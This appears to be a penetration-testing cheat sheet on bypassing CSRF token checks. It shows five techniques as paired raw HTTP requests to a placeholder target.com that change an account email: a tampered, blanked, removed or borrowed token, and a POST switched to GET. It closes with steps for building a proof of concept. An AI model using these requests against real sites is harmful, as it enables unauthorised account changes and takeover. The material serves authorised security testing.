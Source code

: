 If the session cookie’s SameSite value is set to none and the `referer` header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

<br/>

**1) Change Single Character to Check if CSRF Token is Being Validated or Not**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBB
```

<br/>
<br/>

**2) Change Request Method from POST to GET**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
GET /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>
<br/>

**3) Remove value in CSRF token**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=
```

<br/>
<br/>

**4) Remove CSRF Token Completely**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com
```

<br/>
<br/>

**5) Send a Valid CSRF Token from Another User**
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;
email=test%40test.com&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY
```

<br/>

*Steps*
```
1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC
```
